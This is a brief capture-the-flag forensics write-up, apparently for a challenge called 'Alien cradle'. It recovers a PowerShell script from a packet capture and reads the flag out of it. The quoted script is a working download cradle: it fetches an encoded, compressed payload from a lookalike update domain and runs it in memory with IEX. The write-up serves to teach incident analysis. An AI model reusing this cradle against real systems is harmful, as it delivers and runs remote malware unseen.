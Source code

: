 # Alien cradle

Opening up the PCAP in Wireshark, we can use the Export HTTP objects functionality to find out there is a suspicious .ps file and download it for further inspection. Indeed, the one-line script reveals our flag:

```powershell
if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit};$w = New-Object net.webclient;$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

## HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}
